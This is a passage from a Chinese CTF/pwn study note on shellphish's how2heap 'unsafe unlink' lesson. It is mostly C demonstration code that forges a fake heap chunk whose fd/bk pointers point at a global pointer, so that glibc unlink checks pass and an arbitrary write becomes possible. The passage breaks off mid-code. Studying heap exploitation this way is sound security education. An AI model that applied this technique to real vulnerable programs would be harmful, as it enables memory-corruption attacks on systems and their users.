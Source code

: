```yaml
---
title: how2heap-04 unsafe unlink实践笔记
time: 2017-08-09
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


> 本文是对shellphish的[how2heap](https://github.com/shellphish/how2heap)系列堆漏洞课程的实践笔记

# 示例代码

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


uint64_t *chunk0_ptr;

int main()
{
	printf("Welcome to unsafe unlink 2.0!\n");
	printf("Tested in Ubuntu 14.04/16.04 64bit.\n");
	printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;
	/* [1] */
	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);
	/* [2] */
	printf("We create a fake chunk inside chunk0.\n");
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);

	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);

	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);
	/* [3] */

	printf("We need to make sure the 'size' of our fake chunk matches the 'previous_size' of the next chunk (fd->prev_size)\n");
	printf("With this setup we can pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False\n");
	chunk0_ptr[1] = chunk0_ptr[-3];
```